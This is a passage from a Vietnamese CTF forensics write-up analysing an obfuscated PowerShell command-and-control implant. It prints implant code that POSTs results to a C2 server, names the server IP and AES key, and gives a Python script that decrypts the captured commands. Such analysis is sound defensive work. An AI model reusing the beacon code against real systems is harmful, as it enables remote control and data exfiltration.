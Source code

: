 ```
                ${n}    = [int]${yO8Xm5S}[0]
                ${kVQBXbur} = @{'result' = ""}
                &'Invoke-WebRequest' -UseBasicParsing -Uri ${tVYmeyrR99} -Body ${KvQBXBur} -Method 'POST'
            }
            elseif (${wb1sWyojE} -eq 'rename'){
                
                ${cwJ2tWh}    = ${YO8Xm5S}[0]
                ${TVYmeyRr99} = ('http' + ':' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
                ${ijFYsE2}   = ('http' + ':' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
            
                ${kVQbXbUr}    = @{'result' = ""}
                .'Invoke-WebRequest' -UseBasicParsing -Uri ${TVYmEyRR99} -Body ${KvqBxbUr} -Method 'POST'
            }
            elseif (${wB1sWYOJe} -eq 'quit'){
                exit
            }
        }
    .sleep ${N}
    }
}
```

- Có vẻ như đoạn script này sẽ thực hiện kết nối tới server <code>128.199.207.220</code> để nhận command từ server và gửi result tới server với payload được mã hóa bằng AES CBC (key là <code>d/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='</code> còn iv là 16 byte đầu của payload đã base64 decode)
- Có được các thông tin đó, quay trở lại file pcap và đi tìm command từ server
![image](https://github.com/M1nh-Duk/Writeups/assets/100038173/b4c284ce-8d3c-4fb0-9950-82340ff0377d)

- Thử decrypt bằng đoạn script dưới đây
```
import base64
from Crypto.Cipher import AES

f = open("base64_payload.txt","r")
key = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='
key = base64.b64decode(key)
data = f.readlines()
for string in data:
    # Decode the base64-encoded key and encrypted
    encrypted = base64.b64decode(string)
    # Extract the IV from the decoded encrypted
    iv = encrypted[:16]
    # Ensure key size is 256 bits
    if len(key) < 32:
        key = key.ljust(32, b'\0')
    elif len(key) > 32:
        key = key[:32]

    # Ensure block size is 128 bits
    if len(iv) < 16:
        iv = iv.ljust(16, b'\0')
    elif len(iv) > 16:
        iv = iv[:16]
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_string = cipher.decrypt(encrypted).rstrip(b'\0')
    print("Decrypted string:", str(decrypted_string))

```
- Decrypt ra các command được gửi từ server
